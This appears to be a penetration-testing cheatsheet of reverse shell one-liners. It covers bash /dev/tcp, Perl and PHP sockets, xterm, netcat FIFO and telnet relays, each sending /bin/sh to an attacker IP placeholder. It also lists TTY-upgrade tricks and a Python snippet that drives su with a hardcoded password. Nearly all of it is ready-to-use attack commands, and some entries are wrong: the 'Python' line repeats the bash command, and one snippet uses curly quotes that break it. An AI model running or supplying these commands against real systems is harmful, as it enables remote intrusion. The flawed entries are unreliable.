 ```yaml
---
title: Reverse Shell Cheatsheet
date: 2024-1-1 
categories: [Notes, Pentest]
tags: [reverse shell,xterm,bash,python,php,netcat,perl,interactive,tty,shell]
comments: false
---
```


# Gaining Access

## Reverse Shell One-Liners

> Bash

```bash
bash -i >& /dev/tcp/<IP-address>/8080 0>&1
```

> Python

```bash
bash -i >& /dev/tcp/<IP-address>/8080 0>&1
```

> Perl

```bash
perl -e 'use Socket;$i="<IP-address>";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

> PHP

```bash
php -r '$sock=fsockopen("<IP-address>",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

> XTerm

```bash
xterm -display <IP-address>:1
```

> Netcat without -e #1

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <IP-address> 1234 > /tmp/f
```

> Netcat without -e #2

```bash
nc localhost 443 | /bin/sh | nc localhost 444
```

```bash
telnet localhost 443 | /bin/sh | telnet localhost 444
```

## Interactive TTY Shells

```bash
/usr/bin/expect sh
```

```bash
python -c ‘import pty; pty.spawn(“/bin/sh”)’
```

> Execute one command with `su` as another user if you do not have access to the shell. Credit to g0blin.co.uk & Mantvydas Baranauskas

```bash
python -c 'import pty,subprocess,os,time;(master,slave)=pty.openpty();p=subprocess.Popen(["/bin/su","-c","id","bynarr"],stdin=slave,stdout=slave,stderr=slave);os.read(master,1024);os.write(master,"fruity\n");time.sleep(0.1);print os.read(master,1024);'
```
